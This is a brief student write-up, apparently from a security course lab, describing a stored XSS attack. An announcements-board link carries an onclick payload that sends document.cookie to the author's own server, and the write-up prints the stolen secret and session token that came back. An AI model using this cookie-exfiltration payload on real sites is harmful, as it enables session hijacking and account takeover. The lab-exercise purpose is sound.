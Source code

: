 I used the code given in the gitlab and used 'request.cookies' with the port and host changed. Ran the python file on the project server and posted the following link on the 
announcements board <a href = "#" onclick = "window.open('http://amplifier.ccs.neu.edu:2799?cookie=' + document.cookie);"> text </a>. I then recieved the secret which was inside the 'p'on the server in the following format with the session id.
{'p': u'Nst5aR8mYtYGazJl', 'session': u'eyJwIjp7IiBiIjoiVG5OME5XRlNPRzFaZEZsSFlYcEtiQT09In0sInUiOiIxbGxfMzR0X3VyX2Y0YzMifQ.B2QT9A.fjKh48w4rfuRHvRoZ8xj6VB4KNQ'}
 

